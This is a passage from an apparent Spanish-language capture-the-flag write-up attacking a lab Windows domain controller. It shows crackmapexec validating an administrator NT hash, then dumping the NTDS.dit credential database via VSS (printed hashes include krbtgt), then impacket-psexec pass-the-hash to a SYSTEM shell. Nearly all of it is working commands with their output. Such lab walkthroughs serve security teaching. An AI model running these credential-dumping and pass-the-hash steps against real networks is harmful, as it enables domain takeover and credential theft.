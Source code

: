 Pero solamente el **hash NT** funciona para el **servicio WinRM**:
```bash
crackmapexec winrm 192.168.212.4 -u "administrator" -H "5d48bcf84aea999fb1ade06970a81237"
SMB         192.168.212.4   5985   BIG              [*] Windows 10 / Server 2016 Build 14393 (name:BIG) (domain:bbr.thl)
HTTP        192.168.212.4   5985   BIG              [*] http://192.168.212.4:5985/wsman
WINRM       192.168.212.4   5985   BIG              [+] bbr.thl\administrator:5d48bcf84aea999fb1ade06970a81237 (Pwn3d!)
```

Con el **hash NTLM** del administrador, podemos indicarle a **crackmapexec** que realice una copia de la **base de datos NTDS.dit** (que almacena las cuentas de usuario y sus hashes de contraseñas en **Active Directory**) utilizando la técnica de **Volume Shadow Copy Service (VSS)**:
```bash
crackmapexec smb 192.168.212.4 -u "administrator" -H "aad3b435b51404eeaad3b435b51404ee:5d48bcf84aea999fb1ade06970a81237" --ntds vss
SMB         192.168.212.4   445    BIG              [*] Windows 10 / Server 2016 Build 14393 x64 (name:BIG) (domain:bbr.thl) (signing:True) (SMBv1:False)
SMB         192.168.212.4   445    BIG              [+] bbr.thl\administrator:5d48bcf84aea999fb1ade06970a81237 (Pwn3d!)
SMB         192.168.212.4   445    BIG              [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         192.168.212.4   445    BIG              Administrator:500:aad3b435b51404eeaad3b435b51404ee:5d48bcf84aea999fb1ade06970a81237:::
SMB         192.168.212.4   445    BIG              Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.212.4   445    BIG              DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.212.4   445    BIG              BIG$:1000:aad3b435b51404eeaad3b435b51404ee:0f7d9f62a1d1fdfb48aecc7f2663824e:::
SMB         192.168.212.4   445    BIG              krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a0b3723455bd8be604ae2e1df74db81b:::
SMB         192.168.212.4   445    BIG              bbr.thl\Music:1103:aad3b435b51404eeaad3b435b51404ee:8ab1d3828490421d0dc1ddd6e2552d90:::
SMB         192.168.212.4   445    BIG              bbr.thl\song:1104:aad3b435b51404eeaad3b435b51404ee:5919764374e465e68f886ac0c4f75ab3:::
SMB         192.168.212.4   445    BIG              [+] Dumped 7 NTDS hashes to /root/.cme/logs/BIG_192.168.212.4_2025-04-18_134853.ntds of which 6 were added to the database
```
Listo, ya solo queda autenticarnos como el administrador aplicando el **movimiento lateral Pass-The-Hash**.

Vamos a hacerlo con **impacket-psexec**:
```batch
impacket-psexec "bbr.thl/administrator"@192.168.212.4 -hashes aad3b435b51404eeaad3b435b51404ee:5d48bcf84aea999fb1ade06970a81237
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 192.168.212.4.....
[*] Found writable share ADMIN$
[*] Uploading file NwJJoLhv.exe
[*] Opening SVCManager on 192.168.212.4.....
[*] Creating service depx on 192.168.212.4.....
[*] Starting service depx.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
